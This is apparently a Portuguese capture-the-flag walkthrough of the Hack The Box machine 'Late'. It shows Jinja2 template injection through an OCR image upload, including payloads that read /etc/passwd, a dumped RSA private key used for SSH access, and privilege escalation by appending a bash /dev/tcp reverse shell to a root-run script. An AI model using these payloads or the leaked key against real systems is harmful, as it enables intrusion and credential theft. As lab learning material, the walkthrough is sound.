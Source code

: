 # Late

## Enumeração

Primeiramente, enumerando as portas e serviços assecíveis usando o **nmap**:

![Untitled](images/Untitled.png)

Observamos que existe uma aplicação web rodando na porta 80 (**http** padrão). Ao acessarmos o site, existe uma página “Home” e uma página “Contact”, essa segunda possui um formulário que não envia nenhuma request ao servidor realmente, portanto é apenas um enfeite.

![Untitled](images/Untitled%201.png)

![Untitled](images/Untitled%202.png)

Conseguimos extrair a informação do domínio pelo email no rodapé “support@late.htb”; e na *Home*, encontramos um link para images.late.htb, que é um subdomínio. Após acrescentá-los no arquivo **/etc/hosts**:

![Untitled](images/Untitled%203.png)

### Enumerando diretórios e subdomínios

Utilizando o gobuster e as [SecLists](https://github.com/danielmiessler/SecLists):

```
gobuster dir -w ~/SecLists/Discovery/Web-Content/raft-small-directories.txt -u 10.10.11.156
gobuster dns -w ~/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -d late.htb
```

Não descobrimos nada na enumeração de diretórios, e a enumeração de subdomínios confirmou apenas o images.late.htb que já conhecíamos:

![Untitled](images/Untitled%204.png)

### Olhando images.late.htb

Encontramos um serviço que detecta textos em uma imagem e transforma em texto plano. A funcionalidade dessa aplicação é bem ruim, a chance dela não entender o texto na imagem é muito grande, mesmo estando bem claro.

![Untitled](images/Untitled%205.png)

## Exploração

Vamos usar o ImageMagick para fazer alguns testes:

```
convert -gravity center -background black -fill white -size 2000x300 caption:'test' test.png
```

Com esse comando, criamos uma imagem escrito “test” dentro dela:

![Untitled](images/Untitled%206.png)

Ao enviarmos pelo site, o resultado é um arquivo **.txt** com o seguinte conteúdo:

```
<p>test
</p>
```

Essa tag **HTML** <p> é um pouco suspeita, testando se existe Server-side Template Injection com a seguinte imagem:

![testssti.png](images/testssti.png)

Observamos o seguinte comportamento:

![Untitled](images/Untitled%207.png)

Testando com uma sintaxe específica:

![testssti2.png](images/testssti2.png)

```
<p>12
</p>
```

Confirmamos assim que realmente existe um SSTI. Como estamos numa aplicação feita em **Flask**, é muito provável que a template engine seja o **Jinja2**, que é a padrão.

Testando mais um payload:

![Untitled](images/Untitled%208.png)

```
<p>444
</p>
```

Esse é realmente um comportamento esperado para o **Jinja2**!

![SSTI](images/ssti.png)
Fonte: [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)

Utilizando essa vulnerabilidade para ler arquivos da máquina:

```
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

![passwd2.png](images/passwd2.png)

```
<p>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
rtkit:x:111:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
avahi:x:113:116:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:114:117:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:115:119::/var/lib/saned:/usr/sbin/nologin
colord:x:116:120:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:117:121:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
geoclue:x:118:123::/var/lib/geoclue:/usr/sbin/nologin
smmta:x:119:124:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:120:125:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin

</p>
```

Observe o usuário no qual destaquei a linha, provavelmente é ele que está rodando a aplicação. Vemos que ele esqueceu a chave privada para acessar o **ssh** na pasta **.ssh**:

![ssh.png](images/ssh.png)

```
<p>-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----

</p>
```

## Pós-exploração

Basta então salvarmos essa chave e acessarmos o usuário via **ssh**.

```
ssh -i sshkey svc_acc@10.10.11.156
```

Achamos a flag de usuário:

```
cat user.txt
```

### Escalação de privilégios

Subindo o **linpeas** e o **pspy**:

![Untitled](images/Untitled%209.png)

Dando permissão de execução:

```
chmod +x linpeas.sh pspy
```

Ao rodar o **linpeas**, descobrimos o seguinte arquivo:

![Untitled](images/Untitled%2010.png)

Vemos que somos o dono desse arquivo e que temos permissão de **append** (flag **a** no último comando).

Esse script **ssh-alert.sh** aparenta enviar um email para o root toda vez que alguém realiza login via **ssh**. Vamos testar essa funcionalidade e observar com o **pspy**:

![Untitled](images/Untitled%2011.png)

Note que o script (**ssh-alert.sh**) é executado pelo root (UID=0) quando um usuário loga. Sabendo disso, vamos editar então esse script para quando o root executar, obtermos uma reverse shell dele.

```
echo 'bash -i >& /dev/tcp/SEU-IP/PORTA 0>&1' >> /usr/local/sbin/ssh-alert.sh
```

No seu terminal:

```
nc -lnvp PORTA
```

Ao logarmos novamente com svc_acc, obtemos então acesso ao root.

```
cat /root/root.txt
```